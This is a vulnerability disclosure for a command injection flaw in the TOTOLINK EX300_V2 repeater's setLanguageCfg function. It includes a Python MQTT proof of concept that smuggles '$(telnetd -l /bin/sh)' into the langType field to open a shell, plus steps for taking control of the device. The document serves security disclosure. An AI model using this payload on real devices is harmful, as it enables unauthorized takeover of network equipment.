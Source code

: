 # Information

**Vendor of the products:**    TOTOLINK

**Vendor's website:**    [http://www.totolink.cn](http://www.totolink.cn "http://www.totolink.cn")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    [TOTOLINK EX300_V2](http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=55 "http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=55")

**Affected firmware version:**    V4.0.3c.7484

**Firmware download address:**    [http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip](http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip "http://www.totolink.cn/data/upload/20210720/b351052836a4fc7e1575dc513afc02b1.zip")

# Overview

`TOTOLINK EX300_V2 V4.0.3c.7484` has a command injection vulnerability detected at function `setLanguageCfg`. Attackers can send a `MQTT` data packet and inject evil commands into parameter `langType` to execute arbitrary commands.

# Show the product

`TOTOLINK EX300_V2` is a Wi-Fi repeater made in China.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/0.jpg)

# Vulnerability details

The vulnerability is detected at `/bin/cste_modules/global.so`.

In the function `setLanguageCfg`, the content obtained by program through parameter `langType` given by `MQTT` data packet is passed to variable `Var`. Then, the variable `Var` is formatted into `v9` through the function `sprintf` without any check. Finally, `v9` is passed as an argument to the function `CsteSystem` which can execute system commands.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/1.jpg)

Above all, attackers can send a `MQTT` data packet and inject evil commands into parameter `langType` to execute arbitrary commands.

# POC

```python
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("192.168.0.254", 1883, 60)
client.publish("totolink/router/setLanguageCfg", '{"langType": "$(telnetd -l /bin/sh)"}')
```

# Get shell

At first, we run the above script to exploit the vulnerability.

Then, we scan ports again and dectect that the port `23` which represents `Telnet service` has been opened.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/2.jpg)

Finally, we telnet into the Wi-Fi repeater through port `23` and control it successfully.

![image](https://github.com/winmt/CVE/blob/main/TOTOLINK%20EX300_V2/pic/3.jpg)
